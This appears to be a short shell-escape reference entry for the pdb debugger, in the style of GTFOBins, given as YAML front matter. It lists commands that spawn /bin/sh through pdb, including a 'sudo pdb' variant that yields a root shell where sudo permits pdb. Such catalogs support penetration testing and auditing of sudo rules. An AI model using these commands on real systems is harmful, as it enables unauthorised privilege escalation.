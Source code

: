 ```yaml
---
description: This allows to execute [`python`](/ptbins/python/) code, other functions may apply.
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'import os; os.system("/bin/sh")' > $TF
        pdb $TF
        cont
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'import os; os.system("/bin/sh")' > $TF
        sudo pdb $TF
        cont
---
```

